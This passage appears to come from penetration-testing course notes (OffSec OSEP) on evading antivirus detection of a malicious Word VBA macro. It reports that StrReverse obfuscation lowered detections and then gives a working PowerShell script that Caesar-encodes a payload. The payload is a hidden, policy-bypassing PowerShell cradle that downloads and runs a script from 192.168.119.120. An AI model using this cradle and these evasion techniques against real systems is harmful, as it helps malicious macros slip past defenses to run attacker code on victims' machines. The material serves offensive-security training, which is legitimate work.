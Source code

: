 > Listing 43 - Improving on the StrReverse obfuscation

Saving the macro in a Microsoft Word document and uploading it to AntiScan.Me reduces our detection rate from seven products to only four:

![[OffSec/OSEP/Course/z. images/1a5a29a2553cfef729a5ab89be9de4b0_MD5.jpg]]

Figure 34: VBA StrReverse obfuscation detection rate

The rather simple obfuscation technique yields a massive drop in detection. However, we have introduced a new potential flag with _StrReverse_ and our code may still be flagged by advanced detection engines that reverse or otherwise permutate strings in search of signatures.

To reduce the detection rate even further, we can perform a more complex obfuscation by converting the ASCII string to its decimal representation and then performing a Caesar cipher encryption on the result.[4](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5148-4)

To better understand the encryption and decryption technique in detail, we'll start by creating an encryption script in PowerShell. We'll create an input variable called _$payload_ containing the string to be encrypted along with the _$output_ variable, which will contain the encrypted string as displayed in Listing 44.

We'll convert the entire string into a character array through the _ToCharArray_[5](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5148-5) method, and then run that output through a _Foreach_[6](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5148-6) loop, with the "%" shorthand.

```
$payload = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"

[string]$output = ""

$payload.ToCharArray() | %{
    [string]$thischar = [byte][char]$_ + 17
    if($thischar.Length -eq 1)
    {
        $thischar = [string]"00" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 2)
    {
        $thischar = [string]"0" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 3)
    {
        $output += $thischar
    }
}
$output | clip
```
